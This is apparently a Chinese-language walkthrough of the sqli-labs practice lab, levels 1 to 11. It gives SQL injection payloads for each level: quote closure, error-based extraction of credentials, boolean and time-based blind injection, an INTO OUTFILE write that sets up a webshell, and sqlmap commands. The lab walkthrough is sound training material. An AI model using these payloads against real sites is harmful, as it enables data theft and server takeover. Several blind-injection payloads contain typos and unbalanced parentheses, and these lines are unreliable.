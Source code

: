 # sqli_labs

## L1:单引号闭合

查看源码，这里接受一个变量id作为参数，而id用单引号闭合，我们这边可以采用单引号闭合来完成注入

```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

具体payload。注意我们闭合之后，需要打一个单引号，前面的`'`是闭合id的`'`,但是后面还有一个`'`,如果不去闭合后面的`'`，则会报语法错误

```
?id='or'1=1    
```

## L2:直接引用变量，无闭合

查看源码，这次直接引用`id`变量

```
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

构造payload，这里的`or`是逻辑运算符，当`or`前面为假时，后检测`or`后面的值，因为`1=1`为永真，于此达到sql注入

```
?id= 1 or 1=1
```

## L3:单引号+括号闭合

查看源码，这次多了个括号闭合

```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

构造payload，逻辑同理，我们需要先把括号闭合掉

法1：构造闭合

```
?id=')or('1=1     
```

法2：注释后续代码,原理是`--+`后续部分的代码被注释掉了

```
?id=' ) or 1=1 --+
```

法3;另一种姿势注释代码

```
?id=' ) or 1=1 #
```

## L4:双引号+括号闭合

查看源码，第一行代码表示在输入的`id`中添加双引号闭合

```
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
```

依旧提供三种姿势注入

```
?id=")or("1=1     
?id=") or 1=1 --+
?id=") or 1=1 #
```

## L5:单引号闭合+报错注入

查看源码，发现好像是简单的闭合，注入后没看到账号密码。

![image](https://github.com/user-attachments/assets/18e49c1b-dff0-42b4-a63c-a5389135ddd4)

```
# 直接单引号拼接
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

# 支持报错、布尔盲注、延时盲注
if true:
    输出 You are in...........
else:
    print_r(mysql_error());
```

因为不输出查询的结果，这就导致不可以使用联合查询的注入方式，但是并不影响正常使用报错

法1：报错注入1

```
?id=1'+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(CONCAT(username,password)+AS+CHAR),0x7e))+FROM+users+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)--+
```

报错注入2

```
?id=1'+AND(SELECT+1+FROM(SELECT+count(*),CONCAT((SELECT+(SELECT+(SELECT+CONCAT(0x7e,0x27,cast(username+AS+CHAR),0x27,0x7e)+FROM+users+LIMIT+0,1))+FROM+INFORMATION_SCHEMA.TABLES+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)+AND+1=1--+
```
![image](https://github.com/user-attachments/assets/11f3be6d-8bcc-4363-b6f8-632a7435ef48)


## L6：双引号闭合+报错注入

与L5同理，只需要改变闭合即可

```
?id=1"+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(CONCAT(username,password)+AS+CHAR),0x7e))+FROM+users+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)--+
```

## L7:闭合+ban报错+布尔盲注or延时盲注

查看源码发现，联合输入被ban，同时不给报错提示，说明报错注入也被ban，但作者提示用`outfile`

```
# 使用单引号加双层括号拼接
$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";

# 支持布尔盲注、延时盲注
if true:
    输出 You are in.... Use outfile......
else:
    输出 You have an error in your SQL syntax
  //print_r(mysql_error());
```
[https://www.sqlsec.com/2020/05/sqlilabs.html#%E5%AF%BC%E5%87%BA%E6%95%B0%E6%8D%AE%E5%88%B0%E6%96%87%E4%BB%B6](https://www.sqlsec.com/2020/05/sqlilabs.html#%E5%AF%BC%E5%87%BA%E6%95%B0%E6%8D%AE%E5%88%B0%E6%96%87%E4%BB%B6)

|                                                                                                                                    |     |     |
| ---------------------------------------------------------------------------------------------------------------------------------- | --- | --- |
| file系列函数                                                                                                                           |     |     |
| into dumpfile()                                                                                                                    |     |     |
| into outfile()                                                                                                                     |     |     |
| load_file()                                                                                                                        |     |     |
| ?id=1')) union select 1,2,'crow' into outfile 'C:\\phpStudy\\PHPTutorial\\WWW\\sqli-lab\\Less-7\\test.php'--+<br><br>成功之后写入一句话木马即可 |     |     |

## L8:手工注入累了，下面用sqlmap通杀

```
?id=1'order by 4 --+    //报错，说明存在三列数据
?id=1' union select 11,2,3 --+    //无报错回显说明报错注入同样失效
```

|   |   |   |
|---|---|---|
|布尔型盲注|   |   |
|length()函数|返回字符串长度||
|substr()|截取字符串|substr(str,pos,len);|
|ascii()|返回字符串ascii码，将字符变数字位||
|时间型|   |   |
|sleep()|将程序挂起n秒||
|if(expr1,expr2,expr3)|判断语句，第一个正确执行，第二个错执行第三个||

```
猜解库名长度，下面都可以用大于号小于号逼近判断
?id=1'and (length(database()))=8 --+
利用ASCII码猜解当前数据库名称
?id=1'and (ascii(substr(datatbase(),1,1)))=115--+    //返回正常，说明数据库名称第一位是ascii码值为115
?id=1'and (ascii(substr(database(),2,1)))>101--+    //经常利用大于号小于号进行逼近
猜表名
?id=1'and (ascii(substr(select table_name from information_schema.tables where table_schema=database()limit 0,1),1,1)))=101--+
//如果返回正常，说明数据库表名的第一个的第一位是e
猜字段名
?id=1'and (ascii(substr(select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1))=105--+
//如果返回正常，说明emails表中的列名称第一位是i
```

有时候，页面不返回报错信息，这时候我们就需要用到时间盲注了

```
猜解库名长度，下面都可以用大于号小于号逼近判断
?id=1'and if (length(database())=8 ,sleep(5),1)--+
利用ASCII码猜解当前数据库名称
?id=1'and if ((ascii(substr(datatbase(),1,1))=115),sleep(5),1)--+    //返回正常，说明数据库名称第一位是ascii码值为115
?id=1'and if ((ascii(substr(database(),2,1))>101),sleep(5),1)--+    //经常利用大于号小于号进行逼近
猜表名
?id=1'and if((ascii(substr(select table_name from information_schema.tables where table_schema=database()limit 0,1),1,1)))=101),sleep(5),1)--+
//如果返回正常，说明数据库表名的第一个的第一位是e
猜字段名
?id=1'and if((ascii(substr(select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1))=105),sleep(5),1)--+
//如果返回正常，说明emails表中的列名称第一位是i
```

法二：sqlmap

```
sqlmap -u "http://192.168.203.141/sqli-lab/Less-8/?id=1" --cookie="PHPSESSID=938ba4d9befdd8411a15a447" --batch --dbs
```

## L9:SQLMAP

利用上一题的代码，跑出数据库即可

```
sqlmap -u "http://192.168.203.141/sqli-lab/Less-9/?id=1" --cookie="PHPSESSID=938ba4d9befdd8411a15a447" --batch --dbs
```

## L10:SQLMAP

```
sqlmap -u "http://192.168.203.141/sqli-lab/Less-10/?id=1" --cookie="PHPSESSID=938ba4d9befdd8411a15a447" --batch --dbs
```

## L11:POST型注入

```
sqlmap -r Post-sqlinjection.txt --batch -dbs
